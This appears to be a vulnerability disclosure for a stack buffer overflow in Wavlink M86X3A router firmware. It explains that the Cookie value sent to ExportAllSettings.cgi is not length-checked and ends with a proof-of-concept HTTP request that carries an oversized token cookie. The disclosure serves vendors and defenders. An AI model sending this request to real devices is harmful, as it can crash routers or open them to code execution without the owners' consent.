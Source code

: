 Wavlink M86X3A_V240730 Stack Overflow Vulnerability Report

## Basic Information

- **Vendor**: Wavlink
- **Model**: M86X3A_V240730
- **Firmware Download Link**: https://docs.wavlink.xyz/Firmware/fm-586x3/

## Vulnerability Description

Wavlink M86X3A_V240730 contains a buffer overflow vulnerability in the `/cgi-bin/ExportAllSettings.cgi` file. The vulnerability arises because the `Cookie` parameter does not properly validate the length of input data. Attackers can exploit this to execute arbitrary code or cause a denial of service (DoS) on the system.


In the binary file of `ExportAllSettings.cgi`, the `sub_400B90` function does not properly limit the input length when handling Cookie data, resulting in a controllable buffer write.

![1750315386446](https://github.com/user-attachments/assets/cd4896c4-c090-4ece-b1ef-26ae201d4976)

![1750315337141](https://github.com/user-attachments/assets/2e3ca63f-93cb-4455-a8cb-c3da929009da)


![1750255157705](https://github.com/user-attachments/assets/d883dd12-9e2b-4594-8555-6d2d3a2455df)

We normally handle overflow. In the first and second pictures, there is a critical point where overflow occurs after inputting 1.

![1750315026220](https://github.com/user-attachments/assets/a6fbdc13-449f-42cb-928f-10ab75997097)

poc

```
GET /cgi-bin/ExportAllSettings.cgi HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ar;q=0.8,en;q=0.7
Cookie: i18next=zh_CN; lstatus=true; token=4E64526B9167BA6D8242E63A760C8BFD111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Connection: close

```

